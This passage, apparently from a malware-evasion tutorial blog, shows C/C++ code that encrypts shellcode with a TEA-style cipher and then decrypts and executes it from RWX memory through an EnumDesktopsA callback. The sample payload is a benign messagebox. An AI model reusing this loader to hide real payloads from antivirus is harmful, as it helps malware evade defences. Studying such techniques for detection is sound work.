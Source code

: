 ```cpp
// encrypt the padded shellcode
for (int i = 0; i < pad_len; i += 8) {
  tea_encrypt(&padded[i], key);
}
```

As you can see, first of all, before encrypting, we use padding via the NOP (`\x90`) instructions. For this example, use the `meow-meow` messagebox payload as usual.     

For correctness, I add the decrypt function. and try to run shellcode:     

```cpp
// tea_decrypt(my_payload, key);
for (int i = 0; i < pad_len; i += 8) {
  tea_decrypt(&padded[i], key);
}

printf("decrypted:\n");
for (int i = 0; i < sizeof(padded); i++) {
  printf("\\x%02x", padded[i]);
}
printf("\n\n");

LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, padded, pad_len);
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

For simplicity, I use running shellcode [via EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html) logic.      

Finally, the full source code of my example (`hack.c`) is:     

```cpp
/*
 * hack.c - encrypt and decrypt shellcode via TEA. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#define KEY_SIZE 16
#define ROUNDS 32

void tea_encrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = 0;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
    sum += delta;
    v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}
```